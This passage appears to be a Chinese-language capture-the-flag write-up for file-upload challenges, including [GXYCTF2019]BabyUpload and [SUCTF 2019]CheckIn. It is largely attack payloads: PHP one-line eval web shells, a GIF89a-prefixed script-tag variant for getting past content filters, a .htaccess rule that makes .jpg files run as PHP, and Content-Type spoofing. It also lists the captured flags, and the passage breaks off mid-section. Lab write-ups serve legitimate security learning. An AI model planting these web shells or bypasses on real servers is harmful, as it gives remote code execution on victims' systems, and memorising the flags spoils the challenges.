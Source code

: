 上传一句话马，后缀保存为jpg

```assembly
<?php @eval($_POST['melody']) ?>
```

上传成功，路径`upload/b7efa9c9c1b76fa145cbafb014376450/a.jpg`

然后上传文件.htaccess，将.jpg解析成.php

```assembly
<FilesMatch "1.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

需要把Content-Type改为：`image/png`，不知道为什么改成`image/jpg`不行。

蚁剑连接

flag{bbe96ed8-0dd2-47a7-b1da-32b88e66aceb}

### [GXYCTF2019]BabyUpload

试了一下上传格式不支持.jpg和.gif，但是可以用png

上传普通的一句话会被和谐掉，大佬说可能过滤了 <?  

用js引用php可以绕过过滤

```assembly
GIF89a
<script language="php">eval($_POST['shell']);</script> 
```

要把Content-Type改为：`image/jpeg`

上传成功

`/var/www/html/upload/100fbac94abfa6b2bc897ece753c008b/js.png succesfully uploaded!`

上传.htaccess文件

Content-Type改为：`image/jpeg`

flag{64bfb6f3-2b52-4dac-8601-74b6761f2828}

### [SUCTF 2019]CheckIn

上传了一个.phtml文件，显示

`illegal suffix!`

改为png上传，显示

`<? in contents!`

内容改为

```assembly
GIF89a
<script language="php">eval($_POST['shell']);</script> 
```
